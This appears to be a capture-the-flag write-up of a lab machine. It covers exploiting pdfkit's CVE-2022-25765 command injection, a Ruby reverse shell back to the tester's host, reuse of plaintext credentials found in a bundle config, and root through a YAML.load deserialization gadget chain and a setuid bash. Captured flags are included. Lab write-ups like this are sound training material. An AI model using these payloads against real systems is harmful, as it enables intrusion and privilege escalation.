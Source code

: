 We tried running a subdomain scan and a `gobuster` scan, which didn't give any results.

There were 2 ports open. `22` and `80`. Both were up-to-date.

On port 80, there is a webserver running. It will make any webpage into a PDF.
So, we went looking for the program it uses to convert HTML to PDF.

When we inputted a URL, and downloaded the PDF, this is what we found in the contents (used `cat`):
```
┌─[✗]─[root@edu-virtualbox]─[/tmp]
└──╼ #cat 977o1sz9ph3smxm7zpfrylmf11sq86u7.pdf | grep pdfkit --text
/Creator (Generated by pdfkit v0.8.6)
    <rdf:li>Generated by pdfkit v0.8.6</rdf:li>
```
"pdfkit v0.8.6", so we went looking for an exploit
We found the [exploit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) after googling "pdfkit 0.8.6 exploit"

Command injection using CVE-2022-25765: 
```
http://10.10.14.8:8000/index.html?name=#{'%20`sleep 5000`'}
```
When we inputted this, the server went unresponsive, so the exploit worked.

We used a Ruby reverse shell from [revshells.com](https://www.revshells.com)
```
http://10.10.14.8:8000/index.html?name=#{'%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.8",5555))'`'}
```

Then we checked out the home directory:
```
drwxr-xr-x  4 henry henry 4096 Jan  8 08:41 henry
drwxr-xr-x  7 ruby  ruby  4096 Jan  8 09:08 ruby
```
2 users, `henry` and `ruby`.
We already had `ruby`, so time for lateral privelege escalation to `henry`.

We tried `linpeas.sh`, but nothing turned up.

After digging around in the `/home/ruby` directory, we found this:
```
ruby@precious:~$ cat .bundle/config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
These are credentials for the `henry` user.

We found the flag in the home directory of `henry`.
```
henry@precious:~$ cat user.txt 
6221ebb70991a8debaf41074ba3bd37b
```

After using `sudo -l` with the password we found, we can run a program as root.
```
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb

```

We found that in `/opt/update_dependencies.rb`, a file was loaded without a full path. This stood out:
```
YAML.load(File.read("dependencies.yml"))
```

So we looked for "ruby YAML load exploit", and we found the [exploit](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)

We made a file named `dependencies.yml`:
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```
The command was ran in the `git_set: COMMAND_HERE`, so we used
```
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
```
and got a root shell.

root flag:
```
12fed37f0570a7957bf30fae66e12931
```